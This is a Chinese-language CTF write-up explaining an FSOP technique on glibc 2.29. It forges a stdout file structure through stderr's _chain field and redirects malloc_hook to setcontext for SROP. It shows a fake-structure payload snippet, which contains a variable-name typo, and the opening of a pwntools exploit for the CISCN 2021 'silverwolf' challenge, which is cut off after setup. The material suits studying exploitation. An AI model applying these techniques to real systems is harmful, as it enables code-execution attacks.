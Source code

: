 

### FSOP

禁用free_hook则打malloc_hook

#### 原理

libc2.29以后，exit函数中会调用`_IO_flush_all_lockp`来刷新`_IO_list_all` 链表中所有项的文件流

在特定的`_IO_2_1_stdout_`的结构情况下，存在这样一条调用链

```
exit->__run_exit_handlers->_IO_cleanup->_IO_flush_all_lockp->_IO_str_overflow->malloc
```

1. 在执行到`_IO_flush_all_lockp`函数的时候，会根据`_IO_2_1_stderr_`文件流中的`_chain`字段的内容，获取`_IO_2_1_stdout_`的地址
2. 如果`_IO_2_1_stdout_`结构体中偏移0x28处的数据大于偏移0x20处的数据，则会检查偏移0xd8处是否为`_IO_str_jumps`
3. 满足条件则调用`_IO_str_jumps`表中的`_IO_str_overflow`函数，并将`_IO_2_1_stdout_`的地址作为参数
4. `_IO_str_overflow`函数中调用malloc前有`rdx, qword ptr [rdi + 0x28]`这样可以通过rdi控制rdx的指令

攻击：

- 在一个地址可控地址SROP_addr布置好SROP需要的寄存器数据

- 任意地址写修改`_IO_2_1_stderr_`文件流中的`_chain`字段的内容为可控地址fake_io

- 在可控地址fake_io中布置好需要的结构内容

    ```python
    io  = '\x00'*0x28
    io += p64(SROP_addr)
    io  = IO.ljust(0xD8,'\x00')
    io += p64(_IO_str_jumps)
    ```

    ![fake_io结构](https://tva1.sinaimg.cn/large/008i3skNly1gvuvrsyrx2j312e0jygv5.jpg)

- 修改malloc_hook为 setcontext+53，在exit的时候完成SROP的利用

#### 例题 CISCN 2021 初赛 silverwolf

按照上面的方法劫持`_IO_2_1_stderr_`文件流中的`_chain`字段，将伪造的`_IO_2_1_stdout_`结构体和SROP链的寄存器数据放在堆上，通过SROP调用read，往一个可写地址写rop链进行orw

exp：

```python
#!/usr/bin/python3

from pwn import *
import sys
import time

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='silverwolf'
libc_name='/home/x1ng/new/glibc-all-in-one/libs/2.29-0ubuntu2_amd64/libc.so.6'

libc=ELF(libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('', )



```